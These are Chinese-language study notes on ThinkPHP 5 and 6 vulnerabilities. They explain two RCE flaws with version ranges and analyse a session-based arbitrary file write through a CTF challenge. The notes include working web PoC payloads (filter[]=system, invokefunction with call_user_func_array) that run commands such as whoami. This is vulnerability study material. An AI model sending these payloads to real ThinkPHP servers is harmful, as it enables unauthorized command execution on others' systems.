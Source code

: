 ```yaml
---
title: 
categories:
- Network_Security
- Web
- Framework
tags:
- Network_Security
- Web
- Framework
---
```


# ThinkPHP 相关漏洞浅略学习

1. 目前学习的主要思路就是大概了解漏洞原理，不过于深入代码，记录复现时的一些问题和经验。

2. 主要参考文章：

    > https://www.cnblogs.com/nongchaoer/p/12029478.html
    > https://blog.csdn.net/qq_39495209/article/details/107864262
    > https://blog.csdn.net/qq_39495209/article/details/107486928
    > https://www.cnblogs.com/lingzhisec/p/15728886.html
    > https://hyasin.github.io/2020/09/08/ThinkPHP%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/

3. 环境搭建的注意事项：

    1. 使用 composer 创建项目时，指定默认的 tp 版本都是最新版，更改版本的方式就是在创建的项目下执行：
        `composer require topthink/framework 5.x.x`
    2. 注意下载对应的 captcha 版本。

## 1. ThinkPHP 5 相关漏洞

### 1.1 ThinkPHP5 RCE - 核心类 Request 其中变量被覆盖导致 RCE

1. 漏洞原理大概就是 `Request` 类的 `_method` 变量用户可控，传入魔术方法 `__construct`（构造函数）后被执行，后面的参数用于指定恶意方法。
    变量 `s` 应该是 PATH_INFO 模式下的**路由**参数。
    ![image-20240425201132747](ThinkPHP/image-20240425201132747.png)

2. 对于版本小于 5.0.13 的，其 PoC 如下：

    ```html
    POST ?s=index HTTP/1.1
    ...
    _method=__construct&filter[]=system&method=GET&get[]=whoami
    ```

3. 对于版本 >= 5.0.13 且 <= 5.0.23 的，其需要开启 debug，5.0.10 后 debug 自动关闭。
    debug 的开启在 `application - config.php`：
    ![image-20240425155915988](ThinkPHP/image-20240425155915988.png)
    其余不变。
    特殊情况就是，如果存在 captcha 模块和对应的 captcha 路由时，可以不需要开启 debug，此时的 PoC 就是：

    ```html
    POST ?s=captcha HTTP/1.1
    ...
    _method=__construct&filter[]=system&method=GET&get[]=whoami
    ```

4. 对于版本 <= 5.1.2，执行 PoC 时会报错，指出 Env 相关错误。同时 5.1 版本默认 debug 模式也是**关闭**的。经过测试，这种 PoC 的版本最多到 5.1.7，即 5.1.3 <= Version <= 5.1.7。

### 1.2 ThinkPHP5 RCE - 路由控制不严谨导致可以调用任意类致使 RCE

1. 漏洞成因大概是：ThinkPHP 默认没有开启**强制路由**，而且默认开启**路由兼容模式**。那么我们可以用兼容模式来调用控制器 Controller，当没有对控制器过滤时，我们可以调用任意的方法来执行。所有用户参数都会经过 `Request` 类的 `input` 方法处理，该方法会调用 `filterValue` 方法，而 `filterValue` 方法中使用了 `call_user_func` ，尝试利用这个方法来执行命令。

2. 版本 <= 5.0.22 时存在漏洞，版本 <= 5.1.30 时也存在，以后的版本采用正则匹配校验，因此漏洞修复，常见的 PoC 如下：
    ```html
    5.0.x
    ?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=calc
    5.1.x
    ?s=index/think\Request/input&filter[]=system&data=calc
    ?s=index/think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=calc
    ```

3. todo：5.0.24 存在序列化口时存在反序列化利用。

## 2. ThinkPHP6 相关漏洞

### 2.1 ThinkPHP6 任意文件写入

1. 漏洞版本：`6.0.0 <= ThinkPHP_Version <= 6.0.1`。

2. 现象：Session 可控，Session 的内容如果是文件名的话会在 `项目名/runtime/session` 文件夹下创建  `sess_...` 的文件。

3. 靶场：[GYCTF2020]EasyThinking

4. 拿到源码后，寻找能够修改 Session 的地方：
    ```php
    public function search()
    {
        if (Request::isPost()){
            # session() 方法会进行 session 内容的比较
            if (!session('?UID'))
            {
                return redirect('/home/member/login');            
            }
            $data = input("post.");
            $record = session("Record");
            if (!session("Record"))
            {
                session("Record",$data["key"]);
            }
            else
            {
                $recordArr = explode(",",$record);
                $recordLen = sizeof($recordArr);
                if ($recordLen >= 3){
                    array_shift($recordArr);
                    session("Record",implode(",",$recordArr) . "," . $data["key"]);
                    return View::fetch("result",["res" => "There's nothing here"]);
                }
            }
            # 可以知道 session 来源于变量 $data
            session("Record",$record . "," . $data["key"]);
            return View::fetch("result",["res" => "There's nothing here"]);
        }else{
            return View("search");
        }
    }
    ```

    源码分析后，发现其 session 来自 `$data` 且要符合内容。

5. 往上追溯 `$data` 的初次赋值，可以看到来自注册界面：
    ```php
    public function register()
    {
        if (Request::isPost()){
            # 这里使用了 "post."，导致其会将请求包中的所有参数接收并存入数据库。这里就是 Session 设置的关键。
            $data = input("post.");
            if (!(new Auth)->validRegister($data)){
                return "<script>alert(\"当前用户名已注册\");history.go(-1)</script>";
            }
            $data["password"] = md5($data["password"]);
            $data["status"] = 0;
            $res = User::create($data);
            if ($res){
                return redirect('/home/member/login');
            }
            return "<script>alert(\"注册失败\");history.go(-1)</script>";
        }else{
            return View("register");
        }
    }
    ```

    这里给出 `Input()` 的源代码：
    ```php
    (!function_exists('input')) {
        /**
         * 获取输入数据 支持默认值和过滤
         * @param string $key     获取的变量名
         * @param mixed  $default 默认值
         * @param string $filter  过滤方法
         * @return mixed
         */
        function input(string $key = '', $default = null, $filter = '')
        {
            if (0 === strpos($key, '?')) {
                $key = substr($key, 1);
                $has = true;
            }
    
            if ($pos = strpos($key, '.')) {
                // 指定参数来源
                $method = substr($key, 0, $pos);
                if (in_array($method, ['get', 'post', 'put', 'patch', 'delete', 'route', 'param', 'request', 'session', 'cookie', 'server', 'env', 'path', 'file'])) {
                    $key = substr($key, $pos + 1);
                    if ('server' == $method && is_null($default)) {
                        $default = '';
                    }
                } else {
                    $method = 'param';
                }
            } else {
                // 默认为自动判断
                $method = 'param';
            }
    
            return isset($has) ?
            request()->has($key, $method) :
            request()->$method($key, $default, $filter);
        }
    ```

6. PHP 官方默认设定的 Session 长度为 32 位：

    > https://www.php.net/manual/zh/session.configuration.php#ini.session.sid-length

    所以设置 Session 为文件名时，带上后缀长度也要满足 32 位。

7. 具体解题过程详见：

    > https://fanygit.github.io/2021/10/20/[GYCTF2020]EasyThinking%201/

    这样有些步骤就解释的通了。